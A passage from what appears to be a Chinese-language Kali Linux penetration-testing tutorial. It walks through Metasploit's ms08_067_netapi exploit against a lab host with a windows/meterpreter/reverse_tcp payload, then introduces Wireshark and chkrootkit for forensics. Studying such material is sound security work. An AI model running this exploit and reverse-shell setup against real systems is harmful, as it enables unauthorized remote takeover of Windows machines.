 这里需要传递`RHOST`值。`RHOST`是我们要定位的远程主机。

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102

```

一旦设置了`exploit`模块，下一步是选择`PAYLOAD`。让我们使用`meterpreter`有效载荷如下：

```
msf exploit(ms08_067_netapi) >set PAYLOAD windows/meterpreter/reverse_tcp

```

选择了`meterpreter`有效载荷后，现在我们需要传递有效载荷参数值。再次传递`show options`命令以查看所需的参数。传递 LHOST IP，即攻击机的 IP。

现在我们已经准备好启动 exploit。传递`exploit`命令以将`exploit`模块发送到目标机器。

![Metasploit 的特点](img/5664OT_03_20.jpg)

如果攻击成功，您将注意到控制台提示变为`meterpreter`，表示我们的有效载荷已成功在远程机器上执行，现在我们可以通过攻击机控制它。您可能已经注意到 Metasploit 如何轻松地通过使用`exploit`模块完全接管了远程目标。Metasploit 是一个非常强大的工具，可以对远程目标进行渗透测试。这是有关 Metasploit 的一个快速入门教程。

让我们继续下一节，我们将阅读有关 Kali Linux 中存在的各种取证工具的内容。

## 使用 Kali Linux 进行网络取证

**网络取证**涉及分析、报告和从计算机系统或任何数字存储介质中恢复网络信息。取证涉及对事件的详细调查以及收集相关信息。Kali 配备了一系列工具，可以协助进行有效的取证分析。取证分析通常涉及调查不同方面，需要不同的工具。与利用框架不同，取证通常依赖于多种工具。让我们在这里详细介绍一些主要的取证工具。

### 使用 Wireshark 进行网络分析

Wireshark 是一种类似于**tcpdump**的开源网络数据包分析工具，它捕获通过电线（网络）流动的数据包，并以可理解的形式呈现它们。Wireshark 可以被视为一把瑞士军刀，因为它可以在不同的情况下使用，如网络故障排除、安全操作和学习协议内部。这是一个可以胜任一切任务的工具，并且使用起来非常容易。

使用 Wireshark 的一些重要好处如下：

+   多协议支持

+   用户友好的界面

+   实时流量分析

+   开源

要开始使用 Kali Linux 中的 Wireshark 工具，请导航至**应用程序** | **Kali Linux** | **前 10 个安全工具** | **Wireshark**。

加载 GUI 后，您将需要选择要开始使用的接口。左下角面板显示各种可用接口。选择一个接口，然后单击**开始**开始。您会注意到 GUI 开始显示所选接口上捕获的不同数据包。

![使用 Wireshark 进行网络分析](img/5664OT_03_22.jpg)

您会注意到 Wireshark GUI 分为三个不同的部分。**捕获**面板显示数据包的实时捕获。**数据包详细信息**面板显示有关捕获面板中所选数据包的信息。**数据包字节**面板以转储或实际格式表示数据包详细信息面板中的信息。它显示流的字节序列。您可以从菜单选项中选择不同的操作以最大化捕获性能。

### 使用 chkrootkit 进行 Rootkit 扫描取证

Rootkits 是恶意程序，旨在隐藏恶意进程，以免被检测，并允许继续访问计算机系统，通常是远程访问。Kali Linux 提供了一个特殊的 rootkit 取证工具，称为`chkrootkit`。可以通过导航到**Kali Linux** | **取证** | **数字反取证** | **chkrootkit**来启动它。
